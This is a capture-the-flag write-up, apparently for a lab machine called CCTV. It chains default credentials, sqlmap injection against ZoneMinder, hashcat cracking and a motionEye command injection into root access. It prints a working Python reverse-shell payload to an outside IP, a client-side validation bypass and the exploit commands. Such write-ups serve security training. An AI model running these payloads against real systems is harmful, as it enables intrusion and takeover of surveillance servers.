

# CCTV

As always, we start with our nmap scan.



We've got a web server running on HTTP, so let's take a look at what it's serving.


Nothing too exciting at first glance, but notice the "Staff Login" button.


That leads us to a login page. Interesting.

Let's try the classics first — `admin:admin` or `admin:admin123`, both suspiciously common on webapps that really should know better.


And just like that, we're in the admin panel with `admin:admin`. Security 101, skipped.

There's also a version number sitting in the top-right corner, which is basically a free hint from the developers.

A quick search turns up a matching vulnerability: [CVE-2024-51482](https://nvd.nist.gov/vuln/detail/CVE-2024-51482).

Following the PoC from the official advisory ([GHSA-qm8h-3xvf-m7j3](https://github.com/ZoneMinder/zoneminder/security/advisories/GHSA-qm8h-3xvf-m7j3)), we can perform SQL injection against the target.

```bash
❯ sqlmap -u "http://cctv.htb/zm/index.php?view=request&request=event&action=removetag&tid=1" \
  --cookie="ZMSESSID=2mj149te9d2ta4ivc71fpjifvh" --batch --level=3 --risk=3
```


As shown above, the `tid` parameter is injectable. Time to dump the database.


This part takes a while — sqlmap doesn't believe in rushing.

Once the dust settles, we've got our hands on the users table. Let's try cracking those password hashes.

| User | Hash |
| --- | --- |
| superadmin | `$2y$10$cmytVWFRnt1XfqsItsJRVe/ApxWxcIFQcURnm5N.rhlULwM0jrtbm` |
| mark | `$2y$10$prZGnazejKcuTv5bKNexXOgLyQaok0hq07LW7AJ/QNqZolbXKfFG.` |
| admin | `$2y$10$t5z8uIT.n9uCdHCNidcLf.39T1Ui9nrlCkdXrzJMnJgkTiAvRUM6m` |

I'll use hashcat for this, but first the hashes go into a `file.hash`.

```bash
hashcat -m 3200 file.hash /usr/share/wordlists/rockyou.txt
```

And rockyou comes through again — we get a password for `mark`: `opensesame`.

Let's put it to use.

```bash
ssh mark@10.129.244.156
```

We're in, but no flag here — time to escalate.

```bash
mark@cctv:/home$ ss -tlnp
State          Recv-Q          Send-Q                   Local Address:Port                    Peer Address:Port         Process         
LISTEN         0               4096                         127.0.0.1:9081                         0.0.0.0:*                            
LISTEN         0               128                          127.0.0.1:8765                         0.0.0.0:*                            
LISTEN         0               4096                     127.0.0.53%lo:53                           0.0.0.0:*                            
LISTEN         0               4096                         127.0.0.1:8888                         0.0.0.0:*                            
LISTEN         0               4096                         127.0.0.1:8554                         0.0.0.0:*                            
LISTEN         0               70                           127.0.0.1:33060                        0.0.0.0:*                            
LISTEN         0               4096                         127.0.0.1:7999                         0.0.0.0:*                            
LISTEN         0               4096                         127.0.0.1:1935                         0.0.0.0:*                            
LISTEN         0               4096                           0.0.0.0:22                           0.0.0.0:*                            
LISTEN         0               151                          127.0.0.1:3306                         0.0.0.0:*                            
LISTEN         0               4096                        127.0.0.54:53                           0.0.0.0:*                            
LISTEN         0               511                                  *:80                                 *:*                            
LISTEN         0               4096                              [::]:22                              [::]:*                            
```

Poking around the local services with curl:

```bash
mark@cctv:/home$ curl -I http://127.0.0.1:8765
HTTP/1.1 200 OK
Server: motionEye/0.43.1b4
Content-Type: text/html; charset=UTF-8
Date: Thu, 14 May 2026 09:01:22 GMT
Etag: "da39a3ee5e6b4b0d3255bfef95601890afd80709"
Content-Length: 0
```

A quick search on motionEye tells us what we're dealing with:

> motionEye is a user-friendly, web-based frontend for the motion daemon, designed to turn single-board computers (like Raspberry Pi) or Linux devices into comprehensive surveillance systems. It provides a clean interface for managing multiple cameras, offering motion detection, video streaming, and media recording capabilities.

Fitting, for a box literally called CCTV. Let's tunnel it to our own machine for a closer look.

```bash
ssh -L 8765:127.0.0.1:8765 mark@cctv.htb
```


I tried the default `admin:blank password` combo, but no luck this time. Let's check the config file instead.

```bash
mark@cctv:~$ cat /etc/motioneye/motion.conf
# @admin_username admin
# @normal_username user
# @admin_password 989c5a8ee87a0e9521ec81a79187d162109282f0
# @lang en
# @enabled on
# @normal_password 

setup_mode off
webcontrol_port 7999
webcontrol_interface 1
webcontrol_localhost on
webcontrol_parms 2

camera camera-1.conf
```

There's our admin credentials, hiding in plain sight.

While digging around, I also found an RCE vulnerability affecting motionEye via the admin panel: [GHSA-j945-qm58-4gjx](https://github.com/advisories/GHSA-j945-qm58-4gjx). Let's log in as admin and check.


The running version matches the advisory, so let's follow the exploit steps.

I set up my payload:

```bash
$(python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.59",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/bash","-i"])').%Y-%m-%d-%H-%M-%S
```

Then bypassed the front-end validation with:

```bash
configUiValid = function() { return true; };
```

Sent the payload, and — root shell acquired.


```bash
root@cctv:/home/sa_mark# cat user.txt
cat user.txt
cb91a99cb035898731fe4b454d077e7d
root@cctv:/home/sa_mark# cat /root/root.txt
cat /root/root.txt
82c34c56b9fec3b117c6a79111bf6379
root@cctv:/home/sa_mark# 
```


And that's a wrap — the cameras were watching the network, but forgot to watch themselves. Done. 